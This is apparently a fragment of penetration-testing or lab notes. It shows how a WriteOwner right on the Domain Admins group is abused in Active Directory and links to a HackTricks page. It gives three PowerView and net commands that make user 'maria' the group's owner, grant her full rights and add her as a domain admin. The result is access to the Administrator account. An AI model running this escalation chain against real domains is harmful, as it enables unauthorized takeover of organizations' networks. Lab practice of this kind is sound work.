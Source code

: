 [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html?highlight=writeowner#writeowner-on-group](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html?highlight=writeowner#writeowner-on-group)

![image.png](image%2056.png)

![image.png](image%2057.png)

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
net group "Domain Admins" maria /add /domain

Once we login again under marias domain admin permissions we have access to the Administrator User

![image.png](image%2058.png)
